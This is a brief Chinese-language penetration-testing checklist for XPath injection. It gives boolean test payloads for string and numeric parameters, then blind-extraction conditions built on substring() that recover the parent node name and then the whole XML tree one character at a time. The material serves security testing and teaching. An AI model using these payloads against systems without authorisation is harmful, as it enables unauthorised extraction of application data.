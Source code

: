 # 注入XPath

**渗透测试步骤：**

(1) 尝试提交下面的值，并确定它们是否会导致应用程序的行为发生改变，但是不会造成错误：

    ' or count(parent::*[position()=1])=0 or 'a'='b
    ' or count(parent::*[position()=1])>0 or 'a'='b

如果参数为数字，尝试提交下面的测试字符串：

    1 or count(parent::*[position()=1])=0
    1 or count(parent::*[position()=1])>0

(2) 如果上面的任何字符串导致应用程序的行为发生改变，但是不会造成错误，很可能通过设计测试条件，一次提取一个字节信息，从而获取任意数据。使用一系列以下格式的条件确定当前节点的父节点的名称：

    substring(name(parent::*[position()=1]),1,1)='a'

(3) 提取出父节点的名称后，使用一系列下面格式的条件提取XML树中的所有数据：

    substring(//parentnodename[position()=1]/child::node()[position()=1]/text(),1,1)='a'


